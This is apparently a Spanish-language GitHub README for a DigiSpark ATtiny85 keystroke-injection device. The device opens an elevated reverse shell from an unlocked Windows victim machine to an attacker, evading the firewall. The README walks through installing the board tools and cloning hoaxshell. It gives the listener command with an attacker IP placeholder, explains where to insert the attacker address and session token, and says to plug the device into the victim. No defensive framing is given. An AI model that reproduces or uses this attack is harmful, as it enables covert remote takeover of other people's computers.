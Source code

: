 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
3. Copiar la carpeta DigisparkKeyboard del repositorio y pegarla en:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
4. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1) Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 2) Abrir Arduino con el script, modificar las variables y seleccionar Digispark 16.5 Board:

- IP_AND_PORT_ATTACKER: Pegar tu IP y puerto de maquina atacante
- TOKEN: Pegar el token generado por hoaxshell
- TOKEN_PART1: Pegar primera parte del token
- TOKEN_PART2: Pegar segunda parte del token
- TOKEN_PART3: Pegar tercera parte del token

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 3) Compilar y cargar a nuestro ATTINY-85 en la misma interfaz de Arduino

### 4) Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



